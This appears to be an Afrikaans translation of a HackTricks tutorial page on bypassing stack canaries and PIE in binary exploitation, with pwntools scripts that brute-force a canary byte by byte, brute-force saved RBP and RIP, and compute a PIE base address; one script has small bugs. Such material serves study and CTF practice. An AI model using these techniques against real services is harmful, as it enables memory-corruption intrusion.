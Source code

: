 <details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>


**As jy te doen het met 'n binêre lêer wat beskerm word deur 'n kanarie en PIE (Position Independent Executable), moet jy waarskynlik 'n manier vind om dit te omseil.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Let daarop dat **`checksec`** dalk nie kan vind dat 'n binêre lêer beskerm word deur 'n kanarie as dit staties gekompileer is en nie in staat is om die funksie te identifiseer nie.\
Jy kan egter handmatig hiervan bewus raak as jy vind dat 'n waarde aan die begin van 'n funksieoproep in die stapel gestoor word en hierdie waarde voor die uittrede nagegaan word.
{% endhint %}

# Brute force Canary

Die beste manier om 'n eenvoudige kanarie te omseil, is as die binêre lêer 'n program is wat **kindprosesse vorm elke keer as jy 'n nuwe verbinding** daarmee vestig (netwerkdienste), omdat elke keer as jy daarmee verbind, **dezelfde kanarie gebruik sal word**.

Dan is die beste manier om die kanarie te omseil, om dit net **karakter vir karakter te brute force**, en jy kan uitvind of die gerade kanariebyte korrek was deur te kyk of die program afgekraak het of sy normale vloei voortgaan. In hierdie voorbeeld **brute force** die funksie **'n 8 byte kanarie (x64)** en onderskei tussen 'n korrek gerade byte en 'n slegte byte deur net te **kyk** of 'n **reaksie** deur die bediener teruggestuur word (in 'n **ander situasie** kan 'n **try/except** gebruik word):

## Voorbeeld 1

Hierdie voorbeeld is geïmplementeer vir 64-bits, maar kan maklik geïmplementeer word vir 32-bits.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Voorbeeld 2

Dit is geïmplementeer vir 32-bits, maar dit kan maklik verander word na 64-bits.\
Merk ook op dat vir hierdie voorbeeld die **program verwag eers 'n byte om die grootte van die inset aan te dui** en die payload.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Druk Kanarie

'n Ander manier om die kanarie te omseil is om dit te **druk**.\
Stel jou 'n situasie voor waar 'n **program vatbaar** vir stapoorvloei 'n **puts**-funksie kan uitvoer wat na 'n **deel** van die **stapoorvloei** wys. Die aanvaller weet dat die **eerste byte van die kanarie 'n nulbyte** (`\x00`) is en die res van die kanarie **willekeurige** bytes is. Dan kan die aanvaller 'n oorvloei skep wat die stapoorvloei oorskryf totdat net die eerste byte van die kanarie oorbly.\
Dan roep die aanvaller die puts-funksionaliteit aan op die middel van die nutlading wat al die kanarie sal **druk** (behalwe die eerste nulbyte).\
Met hierdie inligting kan die aanvaller 'n nuwe aanval **skep en stuur**, met kennis van die kanarie (in dieselfde programsessie).

Dit is duidelik dat hierdie taktiek baie **beperk** is, aangesien die aanvaller in staat moet wees om die **inhoud** van sy **nutlading** te **druk** om die **kanarie** uit te voer en dan 'n nuwe nutlading (in dieselfde programsessie) te skep en te **stuur** om die werklike stapoorvloei te veroorsaak.\
CTF-voorbeeld: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Om die PIE te omseil, moet jy **'n adres uitlek**. En as die binêre lêer nie enige adresse uitlek nie, is die beste om dit te doen om die **RBP en RIP wat in die stapel gestoor is, deur middel van bruto-krag** in die vatbare funksie te raai.\
Byvoorbeeld, as 'n binêre lêer beskerm word deur beide 'n **kanarie** en **PIE**, kan jy begin om die kanarie bruto-krag te gebruik, dan sal die **volgende** 8 byte (x64) die gestoorde **RBP** wees en die **volgende** 8 byte sal die gestoorde **RIP** wees.

Om die RBP en die RIP van die binêre lêer bruto-krag te gebruik, kan jy uitvind dat 'n geldige geradeerde byte korrek is as die program iets uitvoer of net nie afkraak nie. Dieselfde funksie as die een wat voorsien is vir die bruto-krag van die kanarie, kan gebruik word om die RBP en die RIP bruto-krag te gebruik:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Kry basisadres

Die laaste ding wat jy nodig het om die PIE te oorwin, is om nuttige adresse van die uitgelekde adresse te bereken: die RBP en die RIP.

Vanaf die RBP kan jy bereken waar jy jou skulp in die stapel skryf. Dit kan baie nuttig wees om te weet waar jy die string _"/bin/sh\x00"_ binne die stapel gaan skryf. Om die afstand tussen die uitgelekde RBP en jou skulpkode te bereken, kan jy net 'n breekpunt plaas nadat die RBP uitgelek is en kyk waar jou skulpkode geleë is. Dan kan jy die afstand tussen die skulpkode en die RBP bereken:
```python
INI_SHELLCODE = RBP - 1152
```
Vanaf die **RIP** kan jy die **basisadres van die PIE-binêre lêer** bereken, wat jy nodig gaan hê om 'n **geldige ROP-ketting** te skep.\
Om die basisadres te bereken, voer eenvoudig `objdump -d vunbinary` uit en kyk na die ontleedde jongste adresse:

![](<../../.gitbook/assets/image (145).png>)

In daardie voorbeeld kan jy sien dat slegs **1 byte en 'n half nodig is** om al die kode te lokaliseer, dus sal die basisadres in hierdie situasie die **uitgelekke RIP wees, maar eindig op "000"**. Byvoorbeeld, as jy _0x562002970**ecf**_ uitgelek het, is die basisadres _0x562002970**000**_.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslagplekke.

</details>
